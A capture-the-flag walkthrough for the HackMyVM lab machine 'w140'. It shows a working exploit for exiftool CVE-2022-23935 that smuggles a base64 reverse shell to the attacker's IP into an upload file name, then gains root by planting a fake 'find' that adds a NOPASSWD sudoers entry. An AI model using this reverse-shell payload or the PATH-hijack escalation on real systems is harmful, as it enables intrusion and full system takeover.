


vmname: w140
author: powerful
difficulty: beginner

```bash
PS D:\hackmyvm\machines> D:\CTF_Tools\ScanNetwork-CTF.ps1
[*] Your IP  : 192.168.100.1
[*] Scanning : 192.168.100.0/24
[*] Status   : Pinging hosts...

[+] Virtual Targets Found:
------------------------------------------------------------

IP              MAC               Vendor
--              ---               ------
192.168.100.164 08:00:27:EA:A7:DE VirtualBox
```


```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-07 21:05 WIB
Nmap scan report for 192.168.100.164
Host is up (0.0027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 ff:fd:b2:0f:38:88:1a:44:c4:2b:64:2c:d2:97:f6:8d (RSA)
|   256 ca:50:54:f7:24:4e:a7:f1:06:46:e7:22:30:ec:95:b7 (ECDSA)
|_  256 09:68:c0:62:83:1e:f1:5d:cb:29:a6:5e:b4:72:aa:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: w140
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.10 seconds
```

Port 80:


endpoint `service.html`


```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ gobuster dir -u $url -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.164
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.100.164/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.100.164/css/]
/manual               (Status: 301) [Size: 319] [--> http://192.168.100.164/manual/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.100.164/js/]
/server-status        (Status: 403) [Size: 280]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

contain of `/assets` dir.


try uploading file img named `cat.jpg` and it returned :


there is a report analysis in the `/analysed_images/` endpoint.

now the file is in:
`/analysed_images/catjpg.txt`

this is the contain:



from the version of exiftool 12.37 it was CVE-2022-23935.

setup shell:
```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

trigger it with payload:
```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ payload=$(echo "bash -i >& /dev/tcp/192.168.100.1/4444 0>&1" | base64) && curl -X POST http://192.168.100.164/upload.php -F "image=@/tmp/w140/catprofile750.jpeg;filename=echo $payload | base64 -d | bash |" -F "upload=Upload"
```

connected:

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.21.32.1] 52812
bash: cannot set terminal process group (468): Inappropriate ioctl for device
bash: no job control in this shell
www-data@w140:/var/www/uploads/1775572927$ cd /
cd /
www-data@w140:/$ which python3
which python3
/usr/bin/python3
www-data@w140:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@w140:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@w140:/$ export SHELL=/bin/bash
www-data@w140:/$ export TERM=xterm-256color
www-data@w140:/$ stty rows 78 cols 158
```

PrivEsc:

```bash
www-data@w140:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@w140:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ghost:x:1000:1000:ghost,,,:/home/ghost:/bin/bash
```

found interesting file:
```bash
www-data@w140:/var/www$ ls -la
total 48
drwxr-xr-x  4 root     root  4096 Feb 21  2023 .
drwxr-xr-x 12 root     root  4096 Jan 29  2023 ..
-rw-r--r--  1 root     root 28744 Feb 21  2023 .w140.png
drwxr-xr-x  7 root     root  4096 Feb 14  2023 html
drwx------  7 www-data root  4096 Apr  7 10:42 uploads
```

transferred it, since there is no exiftool:
```bash
www-data@w140:/var/www$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ wget $url:8080/.w140.png
--2026-04-07 21:46:39--  http://192.168.100.164:8080/.w140.png
Connecting to 192.168.100.164:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 28744 (28K) [image/png]
Saving to: ‘.w140.png’

.w140.png                 100%[==================================>]  28.07K  --.-KB/s    in 0.005s

2026-04-07 21:46:39 (5.26 MB/s) - ‘.w140.png’ saved [28744/28744]
```

transfereed:
```bash
192.168.100.1 - - [07/Apr/2026 10:46:37] "GET /.w140.png HTTP/1.1" 200 -
```


opened and it contain qrcode.

find out what is that using `zbarimg`:
```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ zbarimg -q --raw .w140.png
Bao[REDACTED]
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/w140]
└─$ ssh ghost@$ip
...
ghost@192.168.100.164's password:
Linux w140 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 21 13:18:19 2023 from 192.168.56.46
ghost@w140:~$ id
uid=1000(ghost) gid=1000(ghost) groups=1000(ghost),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
ghost@w140:~$ ls -la
total 28
drwxr-xr-x 3 ghost ghost 4096 Feb 21  2023 .
drwxr-xr-x 3 root  root  4096 Jan 29  2023 ..
lrwxrwxrwx 1 root  root     9 Feb  8  2023 .bash_history -> /dev/null
-rw-r--r-- 1 ghost ghost  220 Jan 29  2023 .bash_logout
-rw-r--r-- 1 ghost ghost 3526 Jan 29  2023 .bashrc
drwxr-xr-x 3 ghost ghost 4096 Feb 14  2023 .local
-rw-r--r-- 1 ghost ghost  807 Jan 29  2023 .profile
-rw------- 1 ghost ghost   33 Feb 21  2023 user.txt
```

```bash
ghost@w140:~$ sudo -l
Matching Defaults entries for ghost on w140:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ghost may run the following commands on w140:
    (root) SETENV: NOPASSWD: /opt/Benz-w140
ghost@w140:~$ file /opt/Benz-w140
/opt/Benz-w140: ASCII text
ghost@w140:~$ ls -la /opt/Benz-w140
-rwxr-xr-x 1 root root 423 Feb 17  2023 /opt/Benz-w140
ghost@w140:~$ ls -la /opt
total 20
drwxr-xr-x  3 root root 4096 Feb 18  2023 .
drwxr-xr-x 18 root root 4096 Jan 29  2023 ..
-rw-------  1 root root    5 Feb 18  2023 .bashre
-rwxr-xr-x  1 root root  423 Feb 17  2023 Benz-w140
drwxr-xr-x  8 root root 4096 Dec  8  2021 exiftool
ghost@w140:~$ cat /opt/Benz-w140

#!/bin/bash
. /opt/.bashre
cd /home/ghost/w140

# clean up log files
if [ -s log/w140.log ] && ! [ -L log/w140.log ]
then
/bin/cat log/w140.log > log/w140.log.old
/usr/bin/truncate -s@ log/w140.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

```bash
ghost@w140:~$ echo 'echo "ghost ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers' > /tmp/find
ghost@w140:~$ chmod +x /tmp/find
ghost@w140:~$ sudo PATH=/tmp:$PATH /opt/Benz-w140
/opt/Benz-w140: 4: cd: can't cd to /home/ghost/w140
ghost@w140:~$ sudo -l
Matching Defaults entries for ghost on w140:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ghost may run the following commands on w140:
    (root) SETENV: NOPASSWD: /opt/Benz-w140
    (ALL : ALL) NOPASSWD: ALL
    (ALL : ALL) NOPASSWD: ALL
```

```bash
ghost@w140:~$ sudo -i
root@w140:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
w140
root@w140:~# cat /home/ghost/user.txt /root/root.txt
61f[REDACTED]
2f9[REDACTED]
```